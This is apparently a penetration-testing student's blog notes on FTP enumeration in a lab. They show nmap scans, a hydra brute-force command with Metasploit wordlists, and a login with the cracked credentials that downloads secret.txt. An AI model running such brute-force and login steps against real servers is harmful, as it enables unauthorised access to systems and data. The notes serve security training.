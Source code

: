 ```yaml
---
layout: post
title: "FTP"
date: "2022-08-21"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student v2
    - Assessment Methodologies
    - Enumeration
---
```


# FTP
```
ip a

inet 192.213.157.2/24
```

```
ping 192.213.157.3
```

```
namp 192.213.157.3

PORT    STATE   SERVICE
21/tcp  open    ftp
```

```
nmap 192.213.157.3 -p 21 -sV -O

PORT    STATE   SERVICE     VERSION
21/tcp  open    ftp         ProFTPD 1.3.5a

Aggressive OS guesses: Linux 2.6.32 (96%)
```

```
ftp 192.213.157.3
ftp> bye
```

```
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.213.157.3 ftp
```

```
ftp 192.213.157.3
Name (192.213.157.3:root): sysadmin
331 Password required for sysadmin
Password: 654321
230 User sysadmin logged in
ftp> ls
ftp> help
ftp> get secret.txt
ftp> bye
```
